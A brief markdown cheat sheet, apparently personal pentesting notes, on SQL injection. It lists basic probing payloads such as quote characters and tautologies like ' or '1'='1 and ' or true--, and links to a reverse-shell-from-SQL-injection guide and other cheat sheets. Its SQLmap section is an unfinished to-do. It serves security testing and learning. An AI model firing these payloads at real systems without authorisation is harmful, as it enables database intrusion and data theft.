 # SQL injection

## Basic techniques
Stick `'` in a parameter and see if it throws a database error (and note what kind).

Another simple test:
```
' or '1'='1
```
Other tests:
```
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```
Rather than rewriting a guide on enumerating a database using SQL injection, I'm just going to provide a link: [Gaining a reverse shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)

## SQLmap
To-do

## Further reading
* [SQL injection cheat sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [Hacking node.js and MongoDB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)
